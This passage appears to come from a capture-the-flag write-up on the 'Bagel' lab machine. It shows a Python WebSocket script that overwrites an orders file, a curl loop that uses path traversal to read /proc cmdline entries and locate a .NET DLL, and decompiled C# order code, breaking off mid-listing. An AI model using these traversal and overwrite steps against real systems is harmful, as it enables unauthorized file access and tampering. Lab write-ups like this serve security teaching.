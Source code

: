 So there's a DLL file somewhere that is used to read orders from an `orders.txt` file. Websockets are used to connect to port 5000. We should find this DLL file, but I don't know where to look as of now. Instead, we can try writing a script to connect to this WebSocket and abuse it somehow as it does not seem to take any user input.&#x20;

I tested this by changing `ReadOrder` to `WriteOrder` and creating this script here to connect:

```python
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://10.129.150.229:5000/")
order = {"WriteOrder":"test"}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
```

When viewing the `/orders` page again, we see that I have successfully overwritten everything there.

```
$ curl http://bagel.htb:8000/orders
test 
```

The exploit has to do with how user input is not sanitised and the `json.dumps` function. Some type of deserialization exploit related to the DLL needs to be used here.

I decided to brute force the PIDs that were running on this machine, and I managed to find the DLL.

```
$ for i in $(seq 800 1000); do curl http://bagel.htb:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done 
...<REDACTED>...
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 916
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 917
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 918
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 919
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 920
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 921
```

Now, I can download the DLL file and port it over to Windows for analysis with DnSpy. When opened, we find the code for 3 Order functions, 1 ReadFile function and the deserialize function I found.

{% code overflow="wrap" %}
```csharp
public object RemoveOrder { get; set; }		
public string WriteOrder
{
	get
	{
		return this.file.WriteFile;
	}
	set
	{
		this.order_info = value;
		this.file.WriteFile = this.order_info;
	}
}
public string ReadOrder
{
	get
	{
		return this.file.ReadFile;
	}
	set
	{
```